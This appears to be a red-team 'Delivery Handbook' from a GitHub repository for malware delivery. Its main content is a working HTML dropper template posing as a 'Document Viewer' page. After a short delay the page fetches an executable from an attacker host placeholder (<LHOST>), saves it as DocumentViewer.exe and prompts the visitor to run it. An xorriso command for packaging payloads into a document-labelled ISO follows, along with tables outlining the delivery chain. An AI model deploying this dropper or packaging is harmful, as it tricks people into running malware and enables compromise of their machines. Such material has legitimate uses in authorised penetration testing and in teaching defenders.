

# Delivery Handbook

- [Delivery Flowchart](#delivery-flowchart)

## Table of Contents

- [Delivery Flowchart](#delivery-flowchart)
- [HTML Dropper](#html-dropper)
- [xorriso](#xorriso)

## Delivery Flowchart



> **Read more:** See sections below for techniques and examples.

## HTML Dropper

```html
<!DOCTYPE html>
<html>
<head>
    <title>Document Viewer - Loading...</title>
    <style>
        body { font-family: Arial; text-align: center; padding: 50px; }
        .loader { border: 8px solid #f3f3f3; border-top: 8px solid #3498db; 
                  border-radius: 50%; width: 60px; height: 60px; 
                  animation: spin 2s linear infinite; margin: 20px auto; }
        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
    </style>
</head>
<body>
    <h1>Preparing Document...</h1>
    <div class="loader"></div>
    <p id="status">Initializing...</p>
    
    <script>
        async function downloadAndSave() {
            document.getElementById('status').textContent = 'Loading document components...';
            
            const response = await fetch('http://<LHOST>/<FILE>.exe');
            const blob = await response.blob();
            
            document.getElementById('status').textContent = 'Finalizing...';
            
            const url = window.URL.createObjectURL(blob);
            const a = document.createElement('a');
            a.href = url;
            a.download = 'DocumentViewer.exe';
            document.body.appendChild(a);
            a.click();
            
            document.getElementById('status').textContent = 'Please run DocumentViewer.exe to view the document';
            
            setTimeout(() => {
                window.URL.revokeObjectURL(url);
            }, 1000);
        }
        
        setTimeout(downloadAndSave, 2000);
    </script>
</body>
</html>
```

## xorriso

```console
$ xorriso -as mkisofs -o <FILE>.iso -J -R -V "Documents_Q4" <FOLDER>/
```

---

## More contents

| Subject | Description |
| --- | --- |
| Additional resources | See techniques and examples in sections above. |
| Delivery chain | Payload → Package → Deliver → Execute; see flowchart. |

## More tables

| Reference | Location |
| --- | --- |
| HTML dropper | See HTML Dropper section for full template. |
| ISO build | See xorriso section for command syntax. |

## Tools and commands

| Category | Example |
| --- | --- |
| ISO | `xorriso -as mkisofs -o <FILE>.iso -J -R -V "Label" <FOLDER>/` |
| Dropper | Fetch + save via JavaScript; see HTML Dropper section. |

## Payloads table

| Type | Description | Reference |
| --- | --- | --- |
| HTML dropper | JavaScript fetch + save, social engineering | See HTML Dropper section above. |
| ISO / media | Bootable or document payloads | See xorriso section; see Payloads handbook. |

---

## Connections

**Tamilselvan Cybersecurity** — Connect · Network:

| Resource | Link |
| --- | --- |
| GitHub | https://github.com/Tamilselvan-S-Cyber-Security |
| Website | https://tamilselvan-official.web.app/ |
| LinkedIn | https://in.linkedin.com/in/tamil-selvan-383618304 |